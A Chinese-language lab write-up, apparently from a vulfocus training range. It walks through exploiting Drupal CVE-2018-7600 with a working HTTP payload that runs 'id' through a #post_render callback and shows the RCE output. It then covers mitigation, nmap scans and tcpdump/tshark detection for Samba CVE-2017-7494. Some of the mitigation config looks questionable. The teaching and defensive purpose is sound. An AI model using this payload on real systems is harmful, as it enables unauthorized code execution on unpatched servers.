

# 入口靶标漏洞缓解

## Drupal CVE-2018-7600 漏洞分析

### 漏洞概述

CVE-2018-7600，也被称为"Drupalgeddon 2"，是Drupal内容管理系统中的一个严重远程代码执行漏洞。该漏洞于2018年3月28日披露，影响Drupal 6、7和8版本。

### 漏洞细节

#### 漏洞类型
- 远程代码执行(RCE)
- 影响Drupal核心的渲染系统

#### 受影响版本
低于 7.58 的 Drupal、低于 8.3.9 的 8.x 版本、低于 8.4.6 的 8.4.x 版本以及低于 8.5.1 的 8.5.x 版本允许远程攻击者执行任意代码，因为存在影响具有默认或通用模块配置的多个子系统的问题。

#### 漏洞根源

该漏洞源于Drupal表单API在处理表单渲染时的缺陷。攻击者可以通过精心构造的请求，在表单渲染过程中注入恶意代码，绕过系统的安全限制，最终导致任意PHP代码执行。

### 漏洞利用原理

1. **表单API处理流程**：Drupal的表单系统在处理用户输入时，会经历构建、验证、提交和渲染等阶段。

2. **不安全渲染**：在渲染阶段，系统会递归处理表单元素及其子元素，但没有充分过滤用户提供的数组键名。

3. **注入点**：攻击者可以通过控制表单元素的`#`前缀属性(如`#markup`、`#access_callback`等)来注入恶意代码。

4. **代码执行**：通过设置`#access_callback`为PHP函数(如`passthru`、`system`等)，攻击者可以执行任意命令。

### 漏洞利用示例

一个典型的利用请求可能如下所示：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=passthru&mail[#type]=markup&mail[#markup]=id
```

这个请求会利用Drupal的AJAX表单处理机制，通过`#post_render`回调执行系统命令。

## 防护措施

1. **升级Drupal**：
   - Drupal 7.x 升级到7.58或更高版本
   - Drupal 8.5.x 升级到8.5.1或更高版本
   - Drupal 8.4.x 升级到8.4.6或更高版本

2. **临时缓解措施**：
   - 禁用用户注册功能
   - 限制对/user/register路径的访问
   - 应用官方提供的补丁

3. **安全监控**：
   - 监控服务器日志中的可疑POST请求
   - 检查是否有异常文件被创建或修改

## 漏洞重要性

CVE-2018-7600被评为"高危"漏洞(CVSS评分9.8)，因为：
- 无需认证即可利用
- 可导致完全系统接管
- 利用代码公开后很快出现自动化攻击工具


## 漏洞利用

对入口靶标进行攻击：
启动容器 vulfocus/drupal-cve_2018_7600 ，打开网页以后进行抓包，发送
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 192.168.56.119:37124
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
得到回复：
```
HTTP/1.1 200 OK
Date: Wed, 21 May 2025 05:26:04 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.19
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
X-Drupal-Ajax-Token: 1
Content-Length: 209
Content-Type: application/json

[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
```
返回结果中包含www-data用户权限信息，证明命令执行成功


## 漏洞修复

临时缓解措施：
禁用用户注册和危险路由

### 编辑Drupal的settings.php文件
```
nano /var/www/html/sites/default/settings.php
```
在文件末尾添加以下内容：

```php
// 禁用用户注册
$config['user.settings']['register'] = 'admin_only';
// 关闭AJAX表单漏洞入口
$config['system.performance']['fast_404']['exclude_ajax_paths'] = TRUE;
```
以此来拦截恶意请求特征（如 `element_parents` 参数）。


### 重启Web服务：

Apache
```
sudo systemctl restart apache2
```

得到响应：
```
HTTP/1.1 403 Forbidden
Date: Wed, 21 May 2025 06:17:02 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.19
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
Content-Length: 2
Content-Type: application/json

{}
```


可以看到，漏洞得到了缓解。
添加的防护措施（`settings.php` 修改 + Apache 规则）已成功拦截攻击请求，Drupal 不再处理包含恶意参数（如 `element_parents`、`ajax_form`）的请求，返回空 JSON `{}` 和 403 状态码。
并且登录网页可以看到界面发生了变化：


# 第一层漏洞利用和检测

## 漏洞介绍

CVE-2017-7494是Samba软件中的一个严重安全漏洞

- Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成。SMB（Server Messages Block，信息服务块）是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同计算机之间提供文件及打印机等资源的共享服务。SMB协议是客户机/服务器型协议，客户机通过该协议可以访问服务器上的共享文件系统、打印机及其他资源。通过设置“NetBIOS over TCP/IP”使得Samba不但能与局域网络主机分享资源，还能与全世界的电脑分享资源。

- 2017年5月24日Samba发布了4.6.4版本，中间修复了一个严重的远程代码执行漏洞，漏洞编号CVE-2017-7494，漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本,，确认属于严重漏洞，可以造成远程代码执行。

## 漏洞利用

尝试扫描10.10.10.0/24网段：

nmap扫描
```
nmap -Pn 10.10.10.0/24 -p 445
```

可以发现，10.10.10.2端口是open状态。于是对它进行进一步分析，确认Samba版本：
```
nmap -Pn 10.10.10.2 -p 445 --script smb-protocols
```
根据Nmap脚本扫描结果，目标主机10.10.10.2的Samba服务支持SMBv1（包括危险的NT LM 0.12）以及更高版本的SMBv2/3协议。这为利用CVE-2017-7494（Samba远程代码执行漏洞）提供了直接条件。

这个模块利用的是 Samba 服务中的 "is_known_pipename()" 函数漏洞（CVE-2017-7494），也称为 "SambaCry" 漏洞。该漏洞允许远程攻击者在 Samba 服务器上上传共享库文件，然后通过命名管道加载并执行该库中的恶意代码。

使用Metasploit自动化利用：

启动交互式 shell：
```
script /dev/null -c bash
```

查看flag


查看系统信息
```
cat /etc/os-release
```


## 攻击检测

在攻击开始前，开启监听
```
sudo tcpdump -i br-34e6724ef976 port 445 -w samba_attack.pcap
```


tshark查看攻击ip来源

```
tshark -r samba_attack,pcap -Y "smb2" -T fields -e ip.src | sort | uniq
```


确认攻击源IP为10.10.10.1（内网横向移动迹象）

查看抓到的pcap包，可以看到攻击者执行的指令以及受害者做出的回复：


可用frame contains "xxx"查看包含某些关键词的操作，比如查看可疑写入行为：


### 失败的尝试：上传payload，然后使用python脚本执行漏洞：

生成payload

上传so文件：

最后python执行都失败了！哈哈
